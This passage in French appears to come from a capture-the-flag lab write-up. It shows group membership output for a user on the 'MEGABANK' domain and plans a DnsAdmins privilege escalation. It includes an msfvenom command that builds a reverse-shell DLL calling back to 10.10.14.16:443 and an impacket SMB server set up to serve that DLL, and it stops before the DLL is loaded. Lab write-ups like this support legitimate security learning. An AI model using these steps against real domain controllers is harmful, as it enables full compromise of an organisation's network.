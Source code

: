 ```sh
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

Cet utilisateur est membre du groupe `DnsAdmins`, pourrais-je avoir le root avec ca ?

En faisant quelque recherche, je trouve que Les membres du groupe `DNSAdmins` ont accès aux informations DNS du réseau. Les autorisations par défaut sont les suivantes : Lire, écriture, création de tous les objets enfants, suppression des objets enfants, autorisations spéciales.

Pour l'abuser alors je vais :
- Creer un DLL Malicieux pour avoir un shell
- ce DLL va s'executer par DNS et qui va ensuite me donner une connexion en tantque SYSTEM sur la machine victime dans le Controlleur de Domaine

```sh
└─# msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.10.14.16 LPORT=443 -f dll -o reverse.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: reverse.dll


```

Je cree un server smb local pour avoir le `dll` dans la machine victime lors de l'execution du DNS

```sh
─# impacket-smbserver s .
Impacket v0.12.0.dev1+20231114.165227.4b56c18a - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
